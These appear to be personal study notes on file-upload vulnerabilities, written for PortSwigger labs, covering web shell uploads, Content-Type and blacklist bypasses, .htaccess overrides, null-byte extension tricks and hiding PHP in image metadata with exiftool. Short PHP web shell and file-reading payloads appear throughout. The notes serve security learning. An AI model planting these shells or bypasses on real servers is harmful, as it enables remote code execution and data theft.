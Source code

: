 - upload files without sufficient validation
	- basic image can execute script
- websites now are more dynamic and the path of a request has no direct relationship to the filesystem (actual path vs URL path can be different - example.com/images == /var/www/images)
1. if file type is non-executable (image or static page, server may just send the file's contents to the client in an HTTP response)
2. if file is executable (php file etc.), and the server is configured to execute files of this type, it will assign variables based on headers and parameters in the HTTP request before running the script
	- resulting output may then be sent to the client in an HTTP response
3. if the file type is executable but the server is not configured to execute the file, it will respond with an error or output the contents of the file may be served as plaintext
- look at `Content-Type` header and `MIME` to the type of file being served.
	`<?php echo system($_GET['command']); ?>` : this allows a system command to be passed into the URL via a query parameter
	`GET /example/exploit.php?command=id HTTP/1.1`
	`<?php echo file_get_contents('/home/carlos/secret');?>` : retrieve contents of the `secret` file
Lab: [Remote Code Execution Via Web Shell Upload](../../../../writeups/portswigger/Remote%20Code%20Execution%20Via%20Web%20Shell%20Upload.md)
# Flawed Validation Of File Uploads
## Flawed File Type Validation 
- the following `Content-Type` are used typically to send data in a `POST` request:
	- `application/x-www-form-url-encoded` : sends simple text like name or address
	- `multipart/form-data` : sending large amounts of binary data (images etc.)
- if no further validation to check if the actual contents of the file is the given `MIME` type, can exploit
Lab: [Web Shell Upload Via Content-Type Restriction Bypass](../../../../writeups/portswigger/Web%20Shell%20Upload%20Via%20Content-Type%20Restriction%20Bypass.md)
## Preventing File Execution In User Accessible Directories
- second line of defense (first being stopping dangerous file types from being uploaded) is to stop the server from executing any scripts that slip through the net
	- servers generally run scripts whose `MIME` type they have been specifically configured to execute
		- otherwise, error message or content in plaintext returned:
			```
			GET /static/exploit.php?command=id HTTP/1.1
			    Host: normal-website.com
			
			    HTTP/1.1 200 OK
			    Content-Type: text/plain
			    Content-Length: 39
			
			    <?php echo system($_GET['command']); ?>
			```
- web servers often use `filename` field in `multipart/form-data` to determine the name and location where the file should be saved
Lab: [Web Shell Upload Via Path Traversal](../../../../writeups/portswigger/Web%20Shell%20Upload%20Via%20Path%20Traversal.md)
## Insufficient Blacklisting Of Dangerous File Types
- blacklisting file types (eg. php) can be overcome by using alternative file extensions like `.php5` or `.shtml`
### Overriding Server Configuration 
- servers won't execute files unless they are configured to do so
- for Apache servers to execute files, the following must be added to `/etc/apache2/apache2.conf` file:
	```
	LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
	```
- this allows mapping of an executable to the correct `MIME` type
	- Note*: only add `LoadModule php_module /usr/lib/apache2/modules/libphp.so` when `mod_php` is not in the server
	- DO NOT INDENT DIRECTIVES
- servers allow developers to create special configuration files within individual directories in order to override or add 1 or more global settings
	- can upload a `.htaccess` file to a directory to allow for a certain extension and then upload the exploit into the same directory
	- Apache servers will load a directory-specific configuration from a file call `.htaccess` if one is present
- developers can make such files on IIS servers using `web.config` file. this can include the following:
	```
	<staticContent>
	    <mimeMap fileExtension=".json" mimeType="application/json" />
	    </staticContent>
	```
- normally not allowed to access such files via HTTP requests. 
	- however, there can be servers that fail to stop you from uploading malicious config files
		- even if file server is blacklisted, can override the config file to trick the server into mapping arbitrary file extension to an executable MIME type that is allowed thanks to your script
# Obfuscation of File Extension
- try hiding it in different ways, such as :
	`exploit.php%00.jpg`
# Hiding Scripts in Images
- use `exiftool` to hide scripts in images in order to bypass content dimensions checking
- How to hide: https://shouts.dev/articles/hide-payload-in-image-file-using-exiftool
	```
	┌──(roshan㉿roshan)-[~/BSCP/file_upload]
	└─$ exiftool -comment="<?php echo '123 '.file_get_contents('/home/carlos/secret').' 123 ';?>" image.jpg
	    1 image files updated
	```
